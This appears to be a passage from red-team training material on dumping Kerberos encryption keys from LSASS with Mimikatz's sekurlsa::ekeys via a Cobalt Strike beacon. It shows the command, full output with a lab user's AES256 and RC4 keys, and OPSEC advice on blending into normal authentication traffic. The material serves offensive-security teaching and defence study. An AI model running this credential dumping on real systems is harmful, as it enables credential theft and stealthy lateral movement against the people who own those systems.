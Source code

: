 The `sekurlsa::ekeys` Mimikatz module will dump the Kerberos encryption keys of currently logged on users.  Since most modern Windows services choose to use Kerberos over NTLM, leveraging these instead of NTLM hashes makes more sense for blending into normal authentication traffic.

These keys can be used in a variety of Kerberos abuse scenarios.

  This command requires elevated privileges.

```
beacon> mimikatz !sekurlsa::ekeys

Authentication Id : 0 ; 459935 (00000000:0007049f)
Session           : Batch from 0
User Name         : jking
Domain            : DEV
Logon Server      : DC-2
Logon Time        : 9/1/2022 7:29:19 AM
SID               : S-1-5-21-569305411-121244042-2357301523-1105

	 * Username : jking
	 * Domain   : DEV.CYBERBOTIC.IO
	 * Password : (null)
	 * Key List :
	   aes256_hmac       4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6
	   rc4_hmac_nt       59fc0f884922b4ce376051134c71e22c
	   rc4_hmac_old      59fc0f884922b4ce376051134c71e22c
	   rc4_md4           59fc0f884922b4ce376051134c71e22c
	   rc4_hmac_nt_exp   59fc0f884922b4ce376051134c71e22c
	   rc4_hmac_old_exp  59fc0f884922b4ce376051134c71e22c
```

  There is a [known issue](https://github.com/gentilkiwi/mimikatz/issues/314) where Mimikatz may incorrectly label all of the hashes as `des_cbc_md4`.

  

In this case, the AES256 key is the one we want.  These hashes are not automatically populated into the Credential data model, but they can be added manually via _View > Credentials > Add_.

  

  **OPSEC**  
  
This module also opens a read handle to LSASS.
